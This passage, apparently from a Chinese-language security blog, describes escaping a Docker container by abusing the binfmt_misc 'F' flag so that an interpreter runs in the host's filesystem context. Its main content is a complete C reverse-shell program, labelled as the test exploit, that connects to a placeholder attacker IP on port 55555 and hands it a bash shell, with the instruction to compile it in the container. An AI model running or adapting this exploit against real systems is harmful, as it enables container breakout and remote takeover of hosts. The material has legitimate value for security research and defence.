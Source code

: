Docker版本: Docker Engine - Community 20.10.11


在实际攻击场景下，如何知道宿主机中被执行的二进制文件的offset和magic是个大问题，同一个命令在宿主机和容器中可能并不相同，有没有不需要宿主机操作直接容器里完成利用的方法呢？

binfmt_misc会受到mount namespace的限制，设置interpreter后在容器中执行受限于容器的chroot，所以需要在宿主机中执行，触发逃逸

在[[RFC v2 v2 0/1] ns: introduce binfmt_misc namespace](https://lore.kernel.org/lkml/87o9cbo96j.fsf@xmission.com/T/#e9ab6b0aa9934f26584d04319c318c7788a12fbd2)中提到

> With the 'F' flag, qemu-ppc-static will be then loaded from the main root filesystem before switching to the chroot.

也就是是说如果将flag设置为F，interpreter会在切换chroot前打开，也就是在宿主机的chroot空间中，但限制是当flag设置为F时，interpreter必须是有效的ELF文件，不能是sh脚本

测试EXP

reverse_shell.c
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>

int tcp_port = 55555;
char *ip = "x.x.x.x";

void reverse_shell(){
    int fd;
    if ( fork() <= 0){
        setsid();

        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_port = htons(tcp_port);
        addr.sin_addr.s_addr = inet_addr(ip);
        fd = socket(AF_INET, SOCK_STREAM, 0);
        if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
            exit(0);
        }
        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);
        execve("/bin/bash", 0LL, 0LL);
       }
    return;
}

void main(int argc, char const *argv[])
{
       reverse_shell();
       return 0;
}
```
在容器中编译好，赋x权限

